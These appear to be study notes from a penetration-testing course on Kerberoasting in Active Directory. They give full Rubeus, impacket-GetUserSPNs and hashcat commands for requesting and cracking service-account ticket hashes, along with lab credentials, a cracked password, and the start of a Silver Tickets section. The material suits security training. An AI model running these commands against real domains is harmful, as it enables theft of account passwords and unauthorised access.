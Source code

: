 - Example on Windows (w/ Rubeus):
	- In this section, we will abuse a service ticket and attempt to crack the password of the service account.
	- Set up:
		- Let's begin by connecting to CLIENT75 via RDP as jeff with the password HenchmanPutridBonbon11.
	- Start:
	- Use Rubeus
			- Since we'll execute Rubeus as an authenticated domain user, the tool will identify all SPNs linked with a domain user
		- `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
			- **kerberoast** -> technique
			- **hashes.kerberoast** ->  the resulting TGS-REP hash
			- output -> 1 usr hash
	- Copy **hashes.kerberoast** to our Kali to crack
		- `cat hashes.kerberoast`
		- `hashcat --help | grep -i "Kerberos"`
		- `sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
		- output -> Strawberry1

- Example on Linux (w/ impacket)
	- Use *impacket-GetUserSPNs*
			-Since our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash
		- `sudo impacket-GetUserSPNs -request -dc-ip 192.168.200.70 corp.com/pete`
		- [Note]:
			- [`If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate or rdate to do so`]
	- Store the TGS-REP hash in a file named hashes.kerberoast2 and crack it
		- `sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

- This technique is immensely powerful if the domain contains high-privilege service accounts with weak passwords
- However, if the SPN runs in the context of a computer account, a managed service account,5 or a group-managed service account,6 the password will be randomly generated, complex, and 120 characters long, making cracking infeasible
-  Same is true for the *krbtgt* user account
	-  acts as service account for the KDC
- Let's assume that we are performing an assessment and notice that we have GenericWrite or GenericAll permissions7 on another AD user account -->  we could also set an SPN for the user,8 kerberoast the account, and crack the password hash in an attack named *targeted Kerberoasting*

### Silver Tickets
		- Remembering the inner workings of the Kerberos authentication, the application on the server executing in the context of the service account checks the user's permissions from the group memberships included in the service ticket. However, the user and group permissions in the service ticket are not verified by the application in a majority of environments. In this case, the application blindly trusts the integrity of the service ticket since it is encrypted with a password hash that is, in theory, only known to the service account and the domain controller.
